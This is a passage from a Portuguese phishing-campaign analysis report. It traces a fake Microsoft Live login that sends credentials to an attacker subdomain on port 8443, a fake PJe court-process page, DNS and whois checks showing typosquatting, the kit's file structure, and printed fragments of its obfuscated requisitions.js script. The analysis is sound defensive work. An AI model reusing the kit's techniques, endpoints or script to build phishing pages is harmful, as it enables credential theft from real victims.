
**Figura 16. Página exibida após resolução do captcha.** Exibição de mensagem de sessão expirada.
<br>


**Figura 17. Página renderizada após mensagem de exibição de sessão expirada.** Página renderizada com caixa de login de contas **Microsoft Live**.

Durante inspeção da página, observou-se que, opções clicáveis "auxiliares" de *Entrar com chave de segurança*, *Opções de Entrada* e *Crie uma* (Para criação de conta), quando acessadas, não retornavam atividade de redirecionamento ou ação alguma, sendo apenas visuais, para seguir o padrão da tela de login oficial de contas **Microsoft Live**, manteno o efito visual opções acessíveis pelo click.
Ao acessar  a opção *Entrar com chave de segurança*, foi possível observar esse, com redirecionamento à índice da própria página vazia `/#`, enquanto a opção *Opções de Entrada* era apenas um botão clicável, sem nenhum script ou link vinculado ao seu acesso e por sua vez, a opção *Crie uma*, para criação de uma conta, vincula-va se a ação de javascript "vazio", com única função descrita em seu script `javascript:void();`, para não retornar nenhuma ação ou atividade.

**Figura 18. Opções opções clicáveis "auxiliares" de *Entrar com chave de segurança*, *Opções de Entrada* e *Crie uma* (Para criação de conta)**. Observado ínatividade de opções quando essas acionadas, sendo observado *Entrar com chave de segurança* com índice para a mesma página `/#`; *Crie uma*  com script vazio `javascript:void()`, sem retorno e *Opções de Entrada* sendo apenas um botão clicável, sem ações ou redirecionamentos.

Ao inserir o e-mail, na caixa de texto, o botão avançar se torna ativo, e então quando acionado, exibe a imagem animada `GIF` ([06.gif](./images/6.png)), clone do símbolo utilizado pelo `outlook`, para aumenta da sensação de veracidade sobre o processo de autenticação de email pela vítima.
Durante acionamento do botão, pelas ferramentas do desenvolvedor fornecidas pelo navegador `Google Chrome`, utlizado para o acesso à página, foi possível observar, o disparo de três ações, duas para obtenção de token, e uma para "validação do email".
A geração de token, no caso observado, muitas vezes, é utilizada como técnica, como um identificador de registro das vítimas, no banco de dados do servidor dos golpistas, enquanto a função validate.
Quando analisada a ação de autenticação do email, foi possível observar a comunicação e envio dos dados do e-mail inserido para outro subdomínio `holmes256.acessoportalatendimento.app` através da porta `8443` (`https://holmes256.acessoportalatendimento.app:8443/validate?mail=`), porta normalmente utilizada por servidores com serviço em `Apache Tomcat`, sendo esse compatível com alta escalabilidade e comunicação em tempo real com clientes e servidor, fornecendo evidências do uso dos servidores de hopedagem do domínio `acessoportalatendimento.app` como estrutura de `backend` da campanha phishing, de recebimento dos dados, talvez como infraestrutura para **Phishing-as-a-Service**.


**Figura 19. Pagina de carregamento de autenticação de login de e-mail.** Gif animado com imagem clone com design da marca **microsoft outlook**, sendo exibido como forma de simular um carregamento de validação legítima do e-mail inserido. Atividade de rede de envio do email inserido para subdomínio, pela porta 8443 (`https://holmes256.acessoportalatendimento.app:8443/validate?mail=`) com possível serviço Tomcat e C2.

Ao término da falsa ação de carregamento de validação de email, a caixa de login é modificada, exibindo o campo para inserção da senha, com o botão inicialmente desativado, só sendo esse ativado, após inserir dados no campo.


**Figura 20. Página após validação do e-mail.** Caixa de login modificada, com exibição de campo de entrada para inserção de senha.

Após inserida a senha, novamente, a imagem de carregamento é exibida, simulando o carregamento da atividade de autenticação da conta no serviço **Microsoft Live**, enquanto é possível observar, pelas ferramentas do desenvolvedor, os dados sendo enviados para o mesmo subdomínio de envio anterior do e-mail, fornecendo clara evidência de roubo de credencial de e-mail, e demonstração clara de usuários dos serviços **Microsoft Live** como público alvo da campanha phishing.


**Figura 21. Página após inserção de senha e ativação do botão de envio.** Observada a exibição de mesma imagem já exibida de carregamento, e envio dos dados de e-mail para mesmo subdomínio observado anteriormente de envio do e-mail fornecido.

A finalização da simulação da autenticação do usuário, renderiza uma nova página, `/final`, mostrando pela identificação utilizada pelo atacante, ser a página de ultima etapa do golpe. Ocarregamento da página, exibe a tela de fundo ofuscada e uma caixa para inserção do CPF ou CNPJ "a ser consultado" para acesso do suposto "processo" citado no e-mail recebido pela vítima, e então o ataque muda de "segurança da conta" para uma simulação do **PJe** (**Processo Judicial Eletrônico**).
Na análise de atividades de rede, o envio de dados para o subdomínio anteriormente identificado (`https://holmes256.acessoportalatendimento.app:8443`) não é mais exibido, observando-se, somente a atividade de um script e carregamento `email-decode.min.js` dentro da estrutura da página, e uma imagem `pje2-branco.png`, sendo renderizada diretamente da estrutura web oficial do serviço de **Processo Judicial Eletrônico**, especificamento do `https://pje1g.trf1.jus.br/pje/img/pje2-branco.png`, como clara intenção de fornecer veracidade como um serviço de orgão oficial.   


**Figura 22. Página carregada após simulação de carregamento de autenticação de conta Microsoft Live.** Página exibindo caixa com campo para inserção de CPF ou CNPJ para consulta do "processo".
<br>


**Figura 23. Recursos carregados pela rede para renderização da página.** Observado script `email-decode.min.js` careegado de dentro da estrutura do subdomínio / página e imagem oficial do **PJe**, obtida por requisição diretamente da estrutura do **PJe** (`https://pje1g.trf1.jus.br/pje/img/pje2-branco.png`).

Quando inserido um número de CPF válido, é renderizado um aviso informando que processo foi "Finalizado" e a audiência "Cancelada". Isso serve para tranquilizar a vítima, pois após receber informação que não existe mais o problema com processos em seu nome, a pessoa não foca mais atenção ao e-mail recebido e a situação ciatada nele, diminuindo chances dela perceber que foi vítima de um golpe e consequentes denúncias sobre. Essa última etapa, mostra-se como uma fase estática, com pagina sem comunicações aparentes com outros servidores, finalizando assim a cadeia desse golpe pelo atacante.


**Figura 24. Página de exibição após inserção do CPF e ação do botão para busca do processo.** Página com exibição de aviso de finalização do processo e audiência cancelada, como método de tranqiuilização da vítima sobre o golpe.

Dentro da estrutura de aviso sobre o cancelamento do processo, ao final, é informado um e-mail de contato falso, utilizando domínio inexistente em consulta por resolução dns pela ferramenta `nslookup` com retorno de `server can't find processo-online.com.br: NXDOMAIN` e pela ferramenta `dig` com retorno do domínio não estar registrado em nenhuma base DNS estando ainda sob registro do próprio orgão controlador de registro .br `Registro.br` (`a.dns.br.`, `hostmaster.registro.br`), pois a consulta pelo `whois` retornava resultado de domínio diferente, porém com nome similar, evidenciando o uso de **typosquatting** pelo atacante, com finalidade de utilizar-se de nome similar verídico que remeta a sistemas de consulta de processos.

```Bash  
┌──(kali㉿kali)-[~/Auto_Reputation/reports]
└─$ whois processo-online.com.br                          
% Copyright (c) Nic.br - Use of this data is governed by the Use and
% Privacy Policy at https://registro.br/upp . Distribution,
% commercialization, reproduction, and use for advertising or similar
% purposes are expressly prohibited.
% 2026-01-15T20:10:53-03:00 - 37.19.221.244

domain:      processoonline.com.br
owner:       INFODIGI INFORMAÇÕES DIGITAIS LTDA.
ownerid:     04.196.147/0001-50
responsible: Joe Losso Parente Junior
country:     BR
owner-c:     NTPON1
tech-c:      EMM216
nserver:     edward.ns.cloudflare.com
nsstat:      20260112 AA
nslastaa:    20260112
nserver:     kehlani.ns.cloudflare.com
nsstat:      20260112 AA
nslastaa:    20260112
created:     20070620 #3689128
changed:     20240614
expires:     20270620
status:      published

nic-hdl-br:  NTPON1
person:      Network Team - Publicações Online
e-mail:      dominios@publicacoesonline.com.br
country:     BR
created:     20180628
changed:     20220407

nic-hdl-br:  EMM216
person:      Emanoel Monster
e-mail:      emanoelm@gmail.com
country:     BR
created:     20030320
changed:     20240410

% Security and mail abuse issues should also be addressed to cert.br,
% respectivelly to cert@cert.br and mail-abuse@cert.br
%
% whois.registro.br only accepts exact match queries for domains,
% registrants, contacts, tickets, providers, IPs, and ASNs.
```

```Bash
┌──(kali㉿kali)-[~/Auto_Reputation/reports]
└─$ dig processo-online.com.br

; <<>> DiG 9.20.15-2-Debian <<>> processo-online.com.br
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 20588
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 1232
;; QUESTION SECTION:
;processo-online.com.br.                IN      A

;; AUTHORITY SECTION:
com.br.                 5       IN      SOA     a.dns.br. hostmaster.registro.br. 2026015546 1800 900 604800 900

;; Query time: 151 msec
;; SERVER: 192.168.192.2#53(192.168.192.2) (UDP)
;; WHEN: Thu Jan 15 17:48:39 EST 2026
;; MSG SIZE  rcvd: 113
```

```Bash             
┌──(kali㉿kali)-[~/Auto_Reputation/reports]
└─$ nslookup processo-online.com.br
Server:         192.168.192.2
Address:        192.168.192.2#53

** server can't find processo-online.com.br: NXDOMAIN
```


**Figura 25. Uso de conta de e-mail falsa como contato da página.** Consulta WHOIS pelo **Registro.br** do dompinio, retornando como resultado, dados de domínio similar ao consultado (sem hífen, `processoonline.com.br`), evidenciando o uso de Typosquatting. Domínio do E-mail divulgado com contato, com ausência de registro em base de DNS mundial, estando ainda sob registro da registradora de domínio `.br` **Registro.br** (`a.dns.br.`, `hostmaster.registro.br`).

### 10.2. Estrutura de Arquivos da Página

Com base no exibido pelo `Sources` do `DevTools` do **Google Chrome**, a estrutura exposta da página principal por esse host pode ser descrita assim:
 
 ```
verificacentral.acessoprotegidolive.com/
└── 0824ce8c8ad5ec13cd42ac3193f13c49760aa0eb/
    ├── css/
    │   └── 0.css
    │
    ├── img/
    │   ├── 0.svg
    │   ├── 010.svg
    │   ├── 00100.png
    │   ├── 11011.svg
    │   └── 0101010.svg
    │
    ├── js/
    │   └── requisitions.js
    │
    ├── 0824ce8c8ad5ec13cd42ac3193f13c49760aa0eb/
    └── 6.gif
    
```

Também foram exibidas dependências externas, não hospedadas nesse domínio:

```
cdn.cloudflare.com/
└── ajax/libs/jquery/3.7.0/
    └── jquery.min.js

cdn.dribbble.com/
└── users/1075504/screenshots/12394713/media/
    └── 1b2985070f81874a146234ae0247ad45.gif

conceito.de/
└── wp-content/uploads/2011/08/
    └── unnamed.png
```

O documento HTML da página é identificado por um hash longo, indicando uma estrutura replicável, ideal para campanhas paralelas, fornecendo links isolados para cada vítima, comum em kits phishing.
Observa-se que a aplicação utiliza apenas bibliotecas amplamente confiáveis (ex.: `jQuery` via CDN), reduzindo alertas de segurança e aumentando a taxa de carregamento bem-sucedido em ambientes restritivos, isso por sua vez, reduz bloqueios por proxy/firewall e reduz o ruído em scanners automatizados, além de proporcionar maior compatibilidade para renderização da página por diferentes tipos de navegadores, assim sendo, uma estratégia para mitigação de detecções de atividades maliciosas.


**Figura 26. Estrutura de arquivos da página inicial.** Uso de hashes para criação do documento HTML da página e uso de fontes externas.

Após a inserção do e-mail para validação, a estrutura é modificada para:
```
verificacentral.acessoprotegidolive.com/
└── 06d64217f00f939889c8dbc9bb8350d5d9d2ab3/
    ├── converged.css
    │
    ├── img/
    │   ├── 010.svg
    │   ├── 00100.png
    │   └── 0909090.svg
    │
    ├── js/
    │   └── requisitions.js
    │
    ├── senha.php
    │   └── ?token=debba277-eaa7-4461-9600-00a3302cdbd0
    │
    └── 6.gif
```

Nessa etapa, observa-se a inclusão e renderização da página por documento em `php`, `senha.php`, esse, referenciando um token `?token=debba277-eaa7-4461-9600-00a3302cdbd0`, evidenciando ser a página responsável pela coleta de senha, que recebe um token único via parâmetro `GET` um `UUID` (Universally Unique Identifier), o que sugere rastreamento individualizado de vítimas, correlação com dados previamente coletados e possível controle de validade do link. 
Além de rastrear, esse token também evita o acesso de pesquisadores de segurança à página de senha diretamente. Ao tentar acessar `senha.php` sem um token válido no banco de dados do atacante, obtem-se o erro `404` de permissão negada. Isso fornece uma camada de proteção contra análise de ferramentas de sandbox automatizadas como o `ANY.RUN`.
 
**Figura 27. Estrutura de arquivos, após inserção da senha.** Observada a inclusão e renderização da página através de documento `senha.php`, com referência de uso de hash de identificação `?token=debba277-eaa7-4461-9600-00a3302cdbd0`.

Por fim, após inserção da senha e simulação de autenticação e exibição da página final, de simulação de busca de processos, a estrutura de documentos é modificada para:

```
top
├── verificacentral.acessoprotegidolive.com
│   ├── cdn-cgi/scripts/5c5dd728/cloudflare-static
│   │   └── email-decode.min.js
│   └── final
│       ├── final/
│       └── (index)
└── pje1g.trf1.jus.br
    └── pje/img
        └── pje2-branco.png
```

A mesma estrutura, permanecia após o fornecimento do CPF.

Nessa estrutura, foi observado a retirada do uso de hash identificador para o documento `HTML` de renderização da página, identificado como `final/`, evidenciando, essa etapa, com uso comum de página de estrutura fixa final do golpe, sem personalização ou uso de identificadores da vítima, e padrão para o kit phishing.
Nota-se também, o uso de fonte oficial para a obtenção da imagem utilizada do símbolo da ferramenta **PJe** (`pje1g.trf1.jus.br/pje/img/pje2-branco.png`), evidenciando a técnica de **External Resource Hijacking**, como forma de fornecer impressão de veracidade da página para a vítima. Isso também, demonstra uma tática de **Evasão de Defesa** (Defense Evasion), pois ao carregar recursos de domínios `.gov.br` ou `.jus.br`, o kit de phishing ganha "reputação" imediata em filtros de segurança simples que verificam a origem dos elementos da página.
Além disso, a presença do script `email-decode.min.js` evidencia que a infraestrutura maliciosa está operando atrás de um serviço de CDN/WAF (Cloudflare), o que dificulta a identificação do IP de origem (Backend) e a execução de procedimentos de takedown.


**Figura 28. Estrutura de arquivos da página final.** Observa-se a ausência do uso de tokens de identificação da estrutura HTML, passando essa a ser identificada de forma fixa como `final/`, como uma estrutura estática não personalizada ou gerada automaticamente. Uso de imagem oficial do **PJe** (`pje1g.trf1.jus.br`) evidenciando a técnica de **External Resource Hijacking** como forma de fornecer impressão de veracidade da página para a vítima e evasão de defesa.

Observa-se a separação da infraestrutura por estágios funcionais (coleta de e-mail e coleta de senha), cada um com diretório, assets e lógica próprios, evidenciando um fluxo de phishing em múltiplas etapas, a aplicação também utiliza diretórios com nomes compostos por hashes longos, o que indica uma arquitetura voltada à criação de instâncias isoladas por campanha, link ou vítima. Esse padrão é comum em operações de phishing para dificultar correlação, bloqueio por assinatura e análise automatizada.
A análise da estrutura, permitiu verificar a presença do script `requisitions.js` durante todo o processo de falsa autenticação de conta **Microsoft Live**, evidenciando esse ser ponto de execução principal do roubo de credencias durante o golpe e envio aos servidores do atacante (C2).
A verificação da identificação das imagens de dentro da estrutura interna da página, de forma numérica/aleatória evidencia também uma característica clássica de **Phishing-as-a-Service** (PhaaS) ou kits comprados em fóruns de cibercrime (Telegram/Darkweb). O desenvolvedor do kit utiliza nomes curtos para economizar banda e facilitar a automação de scripts que geram milhares de páginas idênticas.
Durante a análise não foram identificados mecanismos legítimos de proteção de aplicação, como headers de segurança, CSP restritivo ou validações robustas no frontend, reforçando o caráter descartável da infraestrutura, e reforçando a natureza com foco em foco em curto prazo da campanha.
A presença de arquivos GIF isolados sugere possível uso como beacon de rastreamento, confirmação de acesso ou métrica de carregamento da página.
A estrutura de arquivos observada é consistente com kits de phishing modernos, projetados para reutilização, automação e evasão de detecção. A separação por estágios, uso de tokens, scripts centralizados e diretórios baseados em hash reforçam a hipótese de coleta ativa e organizada de credenciais.

### 10.3. Análise de scripts

O script de importância identificados durante o fluxo de acesso à pagina e estrutura de arquivos correspondente, foi identificado como sendo principalmente o `requisitions.js`. Conforme já relatado pela análise de estruturas de arquivos, esse, aparece durante todo o processo de roubo de credencias da conta **Micrisift Live** da vítima, o que demontra sua direta relação com a atividade maliciosa de extração dos dados e envio ao servidor do atacante.
Para a realização da análise, realizou-se do download do arquivo diretamente pela ferramenta de desenvolvedor do **Google Chrome DevTools**, e posteriormente analisado seu conteúdo pela IDE (Integrated Development Environment) **Visual Studio Code**.
O script obtido encontrava-se minificado, o que dificultava a análise de sua lógica. Para viabilizar a investigação, foi realizada a formatação do código (beautify) via ferramenta `js-beautify` podendo ser acessado rm `https://beautifier.io/`, sendo o arquivo resultante renomeado para `requisitions_beauty.js`.

```Bash                                                                      
┌──(kali㉿kali)-[~/Auto_Reputation/reports]
└─$ cat requisitions.js | head -20       
(function(_0x55c104,_0x429459){const _0x1164a7=a0_0xec36,_0x4c42ff=_0x55c104();while(!![]){try{const _0x2bd63b=parseInt(_0x1164a7(0x282))/0x1+parseInt(_0x1164a7(0x2e7))/0x2+-parseInt(_0x1164a7(0x1c2))/0x3*(-parseInt(_0x1164a7(0x355))/0x4)+parseInt(_0x1164a7(0x361))/0x5*(-parseInt(_0x1164a7(0x22e))/0x6)+-parseInt(_0x1164a7(0x4c4))/0x7*(-parseInt(_0x1164a7(0x35b))/0x8)+parseInt(_0x1164a7(0x2aa))/0x9*(-parseInt(_0x1164a7(0x2bd))/0xa)+-parseInt(_0x1164a7(0x464))/0xb;if(_0x2bd63b===_0x429459)break;else _0x4c42ff['push'](_0x4c42ff['shift']());}catch(_0xfc837f){_0x4c42ff['push'](_0x4c42ff['shift']());}}}(a0_0x5cab,0x5530c),(function(_0xba3585,_0x14a7c8)...
```

```Bash                                      
┌──(kali㉿kali)-[~/Auto_Reputation/reports]
└─$ cat requisitions-beauty.js | head -20
(function(_0x55c104, _0x429459) {
    const _0x1164a7 = a0_0xec36,
        _0x4c42ff = _0x55c104();
    while (!![]) {
        try {
            const _0x2bd63b = parseInt(_0x1164a7(0x282)) / 0x1 + parseInt(_0x1164a7(0x2e7)) / 0x2 + -parseInt(_0x1164a7(0x1c2)) / 0x3 * (-parseInt(_0x1164a7(0x355)) / 0x4) + parseInt(_0x1164a7(0x361)) / 0x5 * (-parseInt(_0x1164a7(0x22e)) / 0x6) + -parseInt(_0x1164a7(0x4c4)) / 0x7 * (-parseInt(_0x1164a7(0x35b)) / 0x8) + parseInt(_0x1164a7(0x2aa)) / 0x9 * (-parseInt(_0x1164a7(0x2bd)) / 0xa) + -parseInt(_0x1164a7(0x464)) / 0xb;
            if (_0x2bd63b === _0x429459) break;
            else _0x4c42ff['push'](_0x4c42ff['shift']());
        } catch (_0xfc837f) {
            _0x4c42ff['push'](_0x4c42ff['shift']());
        }
    }
}(a0_0x5cab, 0x5530c), (function(_0xba3585, _0x14a7c8) {
    const _0x24cc3d = a0_0xec36,
        _0x5dba01 = {
            'jqckp': function(_0x2fc48f, _0x88225) {
                return _0x2fc48f(_0x88225);
            },
            'SaXPu': function(_0x126948, _0x40800a) {
                return _0x126948 - _0x40800a;
```


**Figura 29. Conteúdo do script `requisitions.js`.** Conteúdo inicialmente obtido com código em formatação minificada, dificultando sua análise. Código após formatação com uso da ferramenta omline `js-beautify`.

A análise do script formatado obtido, evidenciou o uso de método de ofusamento de variáveis, com clara intenção de dificultar a identificação de seu conteúdo e atividade de execução do código, apresentando funções comuso de varíaveis e índices, seguindo um padrão de codificação.

```Bash
 return a0_0x9513 = function(_0x2e5c35, _0x3bb505) {
        const _0x196883 = _0x2855ab;
        if (_0x340e29[_0x196883(0x3d3)](_0x340e29[_0x196883(0x2a4)], _0x340e29[_0x196883(0x2a4)])) {
            const _0x1a68bf = {
                    'nqzcL': function(_0xe0e6ed, _0x1662d2) {
                        const _0x5a52bc = _0x196883;
                        return _0x340e29[_0x5a52bc(0x33f)](_0xe0e6ed, _0x1662d2);
                    },
                    'FucxE': function(_0x2cffec, _0x472da2) {
                        const _0x43b65a = _0x196883;
                        return _0x340e29[_0x43b65a(0x4af)](_0x2cffec, _0x472da2);
                    },
                    'mcHtJ': function(_0x89d316, _0x2d4946) {
                        const _0x22ceee = _0x196883;
                        return _0x340e29[_0x22ceee(0x4af)](_0x89d316, _0x2d4946);
                    },
                    ...
```

```Bash
},
            'RgXeI': _0x1ad82a(0x255),
            'uBblm': _0x1ad82a(0x3d5),
            'DSGdV': _0x1ad82a(0x360),
            'GQJAm': _0x1ad82a(0x46e),
            'BNPYa': _0x1ad82a(0x3e6),
            'kcCVL': _0x1ad82a(0x1f0),
            'HjjWi': _0x1ad82a(0x416),
            'HxkYM': _0x1ad82a(0x53a),
            'VtGZO': _0x1ad82a(0x509),
            'JsmAQ': _0x1ad82a(0x4a2),
            'GHPqG': _0x1ad82a(0x513),
            'FCXVw': _0x1ad82a(0x219),
            'naqzj': _0x1ad82a(0x4e5),
            'HHgKq': _0x1ad82a(0x3d9),
            'rMAlQ': _0x1ad82a(0x2c5),
            'YFHqr': _0x1ad82a(0x37a),
            'oRsSE': _0x1ad82a(0x4df),
            'sigsN': _0x1ad82a(0x50e),
            'teOJg': _0x1ad82a(0x1c9),
            'eizUm': _0x1ad82a(0x35c),
            'kSIiS': _0x1ad82a(0x476),
            'sYYjc': _0x1ad82a(0x262),
